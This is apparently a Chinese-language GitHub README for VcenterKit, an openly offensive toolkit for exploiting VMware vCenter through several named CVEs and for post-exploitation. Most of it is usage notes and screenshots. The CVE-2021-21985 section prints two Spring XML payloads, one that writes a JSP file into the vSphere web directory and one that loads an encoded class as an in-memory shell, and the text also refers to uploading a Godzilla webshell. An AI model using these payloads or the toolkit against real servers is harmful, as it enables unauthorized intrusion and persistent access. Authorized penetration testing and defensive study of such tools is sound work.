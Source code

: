 ![VcenterKit](https://socialify.git.ci/W01fh4cker/VcenterKit/image?description=1&descriptionEditable=Vcenter%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%E5%8C%85%20%7C%20Vcenter%20Comprehensive%20Penetration%20and%20Exploitation%20Toolkit&font=Rokkitt&forks=1&issues=1&language=1&logo=https%3A%2F%2Fs2.loli.net%2F2022%2F06%2F25%2FgUAh2V5CiD96y8G.jpg&owner=1&pattern=Circuit%20Board&pulls=1&stargazers=1)

# 1. 使用说明(V 0.0.3)

## 1.1 安装与启动  
### 1.1.1  Windows环境

推荐使用`Python3.9`

```shell
pip install -r requirements.txt
python VcenterKit.py
```

### 1.1.2 Mac环境  
非常感谢[outmansec](https://github.com/outmansec)师傅提出的针对`Mac`的修改版脚本的`pull request`。  
```shell
pip install -r requirements_PyQt6.txt
python VcenterKit_PyQt6.py
```
启动截图如下：  
![image](https://github.com/W01fh4cker/VcenterKit/assets/101872898/ffa99211-3191-41b0-a898-6ba33f741dea)


## 1.2 信息收集模块

直接输入`url`即可进行信息搜集，如果存在本地文件读取的话，程序会自动读取数据库文件；有些网站是没有`sdk`接口的，也就无法通过这种方式来查询信息，后续会研究其他的方法：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824001431.png)

## 1.3 CVE-2021-21972模块

主要利用思维导图如下：

可以看到，并非所有情况下都能`100%`成功上传文件的，因此这里我把这些利用链（除了写`authorized_keys`）全部写在代码里面了，依次尝试。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/9f185d40dfc9057818ed93226aeb279.png)

这里放上之前测试利用搭建的环境的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/8bd245ffada0baa39a3059c73764bed.jpg)

上传哥斯拉马：

![11edd12a79387cb0d58d2a24b86ca10](https://github.com/W01fh4cker/VcenterKit/assets/101872898/3aac0b58-d2b7-49bd-a51e-5dc87e4f8845)


## 1.4 CVE-2021-21985模块

![image](https://github.com/W01fh4cker/VcenterKit/assets/101872898/e49cb0bb-0bbf-457b-b789-09ce3948a220)


需要注意的是，这里的`RMI`和`Command`只能二选一填写，目前`rmi`由于测试环境的问题，还没有进行测试，可能会有问题，但是`command`目前测试下来没什么问题，这里放上一张之前写的时候测试的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/e39abf9b303b95372fa666e919cf705.png)

需要注意的是，当前版本（`v0.0.2`）的`shell`上传和内存马打入模块还没实现。但是核心思想就是替换`xml`：

>  以下参考：https://daidaitiehanhan.github.io/2022/04/18/vCenter2021几个漏洞及后渗透/#不出网利用

上传`shell`的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.io.PrintWriter">
        <constructor-arg>
            <value>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log2.jsp</value>
        </constructor-arg>
    </bean>
    <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[<% out.println("ok"); %> ]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.println(is).close()}"/>
    </bean>
</beans>
```

打内存马要用到的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="com.sun.org.apache.bcel.internal.util.ClassLoader">
    </bean>
        <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[$$BCEL$$...]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.loadClass(is).newInstance()}"/>
    </bean>
</beans>
```

等后面有时间了写上，当然，你可以来写，然后提`pr`，我看到会第一时间回复。

## 1.5 CVE-2021-22005模块

这里的`shell name`可写可不写，不写的话就是自动生成`6`位的名字。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003746.png)

测试截图：
![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003704.png)

## 1.6 CVE-2022-22954

测试截图如下：

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/6ef6d341978aaaa6f36bb894594ac47.png)

## 1.7 CVE-2022-22972

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004009.png)

## 1.8 后渗透利用模块

本来是想把这些脚本集成到工具里面的，但是转念一想，没必要，直接弄成点按钮生成脚本到本地这种形式就可以了，这样直接一个工具走天下。

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/20230827015200.png)

## 1.9 渗透测试记事本

这里我放上去了一些打vcenter的时候常用的命令、常看的文章。

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/e2ecc850aeca29a024a85fd08618e87.png)

# 2. Q&A

## 2.1 代理问题？

因为`vcenter`大多数位于内网，因此都是`proxifer`挂代理打，也就不怎么需要程序本身加个代理功能，我也懒得写了。

## 2.2 长期维护吗？

长期维护！本工具会和未来出的一系列工具，例如后面会开始写的`ExchangeKit`一样，都是我长期维护的项目，和之前的`Serein`( https://github.com/W01fh4cker/Serein )不一样（那个时候代码水平不行，加上`tkinter`做图形化太难受了，就不想维护了）。

## 2.3 代码写的有逻辑问题/有bug/有新利用方式，如何沟通？

类似的问题，直接提交`issues`( https://github.com/W01fh4cker/VcenterKit/issues )，描述清楚相关环境，和具体细节，我看到之后会在当天内回复，一般20分钟内就会回复（因为我的电子邮件可以实时收到消息）。

如果有代码能力的话，欢迎提交`pull request`。

## 2.4 想参与进来，共同维护？

没问题，提交`pull request`，贡献代码。

## 2.5 和其他工具相比的优缺点？

`Akatsuki`师傅（ https://github.com/Schira4396 ）写的`VcenterKiller`是我非常喜欢的一个利用工具，我的`VcenterKit`与其定位并不相同，我这个是用于本地挂代理测试内网或者外网的`vcenter`漏洞，并且由于方便而弄了个`pyqt5`做图形化，这直接导致打包后的`exe`体积非常非常大；而`VcenterKiller`则是用`go`语言写的一款小巧的利用工具，可以直接传至对方服务器运行，也可以本地运行，可以跨平台，非常的方便。

对于`CVE-2021-21972`这个漏洞而言，本工具可以自定义`shell`的名字，并且自动尝试数种利用链，用起来还是很舒服的，哈哈。

工具只是辅助，写工具的过程是了解漏洞的很好的方式，从中获得经验，足矣。

# 3. TODO

* [ ] 研究`CVE-2021-21985`的上传`shell`和打内存马的方式
* [ ] 你们提建议

# 4. 微信公众号：追梦信安

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824010900.png)  
# 5. Star History

[![Star History Chart](https://api.star-history.com/svg?repos=W01fh4cker/VcenterKit&type=Date)](https://star-history.com/#W01fh4cker/VcenterKit&Date)

